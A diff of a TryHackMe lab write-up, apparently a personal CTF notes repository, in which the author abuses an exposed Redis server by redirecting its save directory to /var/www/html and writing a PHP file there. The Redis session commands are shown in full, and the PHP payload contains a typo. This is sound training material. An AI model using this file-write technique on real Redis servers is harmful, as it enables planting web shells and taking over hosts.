

Before and after one commit to Aryt3/writeups, a Markdown page: tryhackme/Res/readme.md, the part around one of its changes. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/tryhackme/Res/readme.md
+++ b/tryhackme/Res/readme.md
@@ -224,3 +224,24 @@ cluster_enabled:0
 
 # Keyspace
 ```
+
+After some research on Redis commands I was able to find `CONFIG GET *`. <br/>
+This command basically outputs the whole configuration of the database management system. <br/>
+What is interesting for us though is that redis is operating in the root direcotry.
+```sh
+251) "dir"
+252) "/"
+```
+
+After some more research I found that we can change the working direcotry and create files, so let's try that:
+```sh
+10.10.57.136:6379[1]> config set dir /var/www/html
+OK
+10.10.57.136:6379[1]> config set dbfilename test.php
+OK
+10.10.57.136:6379[1]> set test "<?php phpinfo((; ?>"
+OK
+10.10.57.136:6379[1]> save
+OK
+```
+
````
Also changed, not shown: other parts of tryhackme/Res/readme.md (+2 -0 lines).
